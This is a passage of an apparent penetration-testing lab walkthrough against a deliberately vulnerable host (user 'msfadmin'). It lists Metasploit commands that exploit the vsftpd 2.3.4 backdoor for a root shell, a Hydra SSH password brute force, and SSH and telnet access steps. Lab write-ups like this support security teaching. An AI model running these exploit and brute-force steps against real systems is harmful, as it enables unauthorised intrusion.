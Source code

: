     ```bash
    msfconsole
    ```
    
2. **Search for vsftpd Exploit**:
    
    ```bash
    search vsftpd
    ```
    
3. **Use the Backdoor Exploit**:
    
    ```bash
    use exploit/unix/ftp/vsftpd_234_backdoor
    ```
    
4. **Configure and Execute**:
    
    ```bash
    set RHOSTS $TARGET
    run
    ```
    
5. **Verify Access**:
    
    ```bash
    whoami    # Should return "root"
    ```
![[Pasted image 20250426123858.png]]


### 4.2 SSH Exploitation (Port 22)

1. **Brute Force SSH**:

  ```bash
#DOESNOT WORK SOMETIMES  
hydra -l msfadmin -P /usr/share/wordlists/metasploit/unix_passwords.txt $TARGET ssh
   
   ```

2. **Direct SSH Access**:

 ```bash   
ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 -oHostKeyAlgorithms=+ssh-rsa,ssh-dss msfadmin@$TARGET
 ```
 
![[Pasted image 20250426124419.png]]


### 4.3 Telnet Exploitation (Port 23)

1. **Connect via Telnet**:
    
    ```bash
    telnet $TARGET
    ```
    